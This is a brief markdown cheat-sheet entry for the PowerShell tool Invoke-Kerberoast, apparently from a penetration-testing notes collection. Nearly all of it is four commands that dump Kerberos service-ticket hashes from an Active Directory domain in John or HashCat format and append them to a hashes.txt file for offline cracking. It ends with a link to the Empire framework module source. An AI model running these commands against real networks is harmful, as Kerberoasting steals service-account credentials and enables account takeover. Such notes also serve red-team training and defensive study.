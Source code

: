 # Invoke-Kerberoast

```
PS C:\> Invoke-Kerberoast -OutputFormat John

PS C:\> Invoke-Kerberoast -OutputFormat John | fl | Out-File -FilePath C:\path\to\hashes.txt -Append -Force -Encoding UTF8

PS C:\> Invoke-Kerberoast -OutputFormat HashCat

PS C:\> Invoke-Kerberoast -OutputFormat HashCat | fl | Out-File -FilePath C:\path\to\hashes.txt -Append -Force -Encoding UTF8
```

---
## References

- [BC-Security Empire Invoke-Kerberoast Module](https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/credentials/Invoke-Kerberoast.ps1)